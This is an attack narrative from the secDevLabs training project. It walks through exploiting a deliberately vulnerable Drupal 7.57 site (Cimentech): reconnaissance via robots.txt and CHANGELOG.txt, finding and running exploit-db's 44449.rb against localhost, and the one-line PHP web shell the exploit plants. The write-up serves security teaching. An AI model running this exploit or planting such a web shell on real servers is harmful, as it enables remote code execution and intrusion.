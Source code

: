 # Attack Narrative - Cimentech
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Cimentech from secDevLabs, to obtain a remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:

<img src="attack1.png" align="center"/>

Afterwards, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:

<img src="attack2.png" align="center"/>

When accessed, an indication of the version of the Content Management System (Drupal) can be found, as show below:

<img src="attack3.png" align="center"/>

Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated to that version, in this case, Drupal 7.57. The results of the search are depicted on the image below:

<img src="attack4.png" align="center"/>

By using [searchsploit](https://www.exploit-db.com/searchsploit) tool, an attacker could also find this same result via terminal. To install it, simply type the following in your OSX terminal:

```sh
brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command would help you make a copy of the exploit to your /tmp folder:

```
cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that a remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="attack5.png" align="center"/>

The exploit works by adding into the server a malicious `s.php` which allows remote code execution on it via following malicious content: 

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command just like `whoami` to verify that we indeed have a RCE on the server, as shown by the image:

<img src="attack6.png" align="center"/>



[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a9/Cimentech
[3]: https://www.exploit-db.com/

